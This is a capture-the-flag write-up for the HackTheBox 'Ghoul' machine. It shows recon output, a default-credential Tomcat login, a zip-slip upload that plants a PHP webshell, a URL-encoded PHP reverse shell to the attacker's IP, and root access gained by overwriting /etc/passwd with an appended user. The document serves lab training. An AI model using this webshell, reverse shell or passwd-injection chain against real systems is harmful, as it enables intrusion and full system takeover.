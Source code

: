 ```yaml
---
title: Ghoul HackTheBox
published: true
tags: htb tomcat file upload passwd ssh reverse shell
---
```


## Recon

```bash
# nmap -sC -sV -Ao nmap 10.10.10.101

# Nmap 7.92 scan initiated Tue Sep 27 15:23:09 2022 as: nmap -sC -sV -Ao nmap.again 10.10.10.101
Nmap scan report for 10.10.10.101
Host is up (0.090s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c1:1c:4b:0c:c6:de:ae:99:49:15:9e:f9:bc:80:d2:3f (RSA)
|_  256 a8:21:59:7d:4c:e7:97:ad:78:51:da:e5:f0:f9:ab:7d (ECDSA)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Aogiri Tree
|_http-server-header: Apache/2.4.29 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 63:59:8b:4f:8d:0a:e1:15:44:14:57:27:e7:af:fb:3b (RSA)
|   256 8c:8b:a0:a8:85:10:3d:27:07:51:29:ad:9b:ec:57:e3 (ECDSA)
|_  256 9a:f5:31:4b:80:11:89:26:59:61:95:ff:5c:68:bc:a7 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Aogiri
|_http-title: Apache Tomcat/7.0.88 - Error report
|_http-server-header: Apache-Coyote/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## open ports
- port 22 = ssh 
- port 80 = http website
- port 2222 = another ssh 
- port 8080 = tomcat

## enumerating the tomcat

Browsing to port 8080 asks for a username/password. Trying some default combinations reveals that `admin:admin` is the right choice. 
On this application you can upload images and zip files which is interesting.
An idea is to create a zip file with a [zip slip](https://security.snyk.io/research/zip-slip-vulnerability) vulnerablility and upload it to the server. 
Because there is an apache webserver you can assume it takes files from `/var/www/html`. 
So you can take a php webshell like: 
```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```
and zip it with `zip shell.zip ../../../../../../../../../var/www/html/shell.php`

This ensures that the zip files gets unzipped at the given directory.

## playing around with the webshell

By browsing to `10.10.10.101/shell.php` the webserver responds with the usage guide which indicates that the webshell is working. 
This is because we set the directory to `/var/www/html` which is the default directory for the apache webserver. 

So now we can execute commands on the target system by sending them as GET parameter in the URL. 
Testing it with `10.10.10.101/shell.php?cmd=cat+/etc/passwd` reveals the passwd file. 

To establish a reverse shell you can now set up a listener and browse to `10.10.10.101/shell.php?cmd=php+-r+'$sock%3dfsockopen("10.10.15.22",4000)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'` (note the url encodeing)

## get user from www-data

Looking around you can notice that our `shell.php` was created by root. This means that the unzip was executed with root privileges which comes in handy. 
```
-rw-r--r-- 1 root root    328 Sep 28 07:52 shell.php
```

So we can create a new user with root privileges by extending the `/etc/passwd` file. 

To create a password for a new user we can use `openssl passwd AAAA` where AAAA is the password. 
We create a new passwd file on our local maschine with the entrys of the target and append a new user with the created password. 
```
╭─ ~/HTB/Ghoul ·················································································· ✔
╰─ wget http://10.10.10.101/shell.php\?cmd\=cat+/etc/passwd -O passwd
--2022-09-28 14:59:27--  http://10.10.10.101/shell.php?cmd=cat+/etc/passwd
Verbindungsaufbau zu 10.10.10.101:80 … verbunden.
HTTP-Anforderung gesendet, auf Antwort wird gewartet … 200 OK
Länge: 1426 (1,4K) [text/html]
Wird in »passwd« gespeichert.

passwd                     100%[======================================>]   1,39K  --.-KB/s    in 0s

2022-09-28 14:59:27 (162 MB/s) - »passwd« gespeichert [1426/1426]


╭─ ~/HTB/Ghoul ·················································································· ✔
╰─ echo "hacker:gDlPrjU6SWeKo:0:0:root:/root:/bin/bash" >> passwd

```

1. Get rid of the `<pre>` tags
2. Make a backup of your current `/etc/passwd` file and move your created passwd file there
3. zip the new `/etc/passwd` with `zip passwd.zip ../../../../../../../../etc/passwd` and upload the zip created zip file
4. Restore your old passwd file 

> If there are problems with your user because you aren't part of the sudoers anymore use `su` to become root

```bash
mv /etc/passwd /etc/passwd.old
mv ~/HTB/Ghoul/passwd /etc/passwd
zip passwd.zip ../../../../../../../../etc/passwd
mv /etc/passwd.old /etc/passwd
```

Now on the target maschine you can `su hacker` and type the created password `AAAA`. 

The user flag is in `kaneki`'s home directory
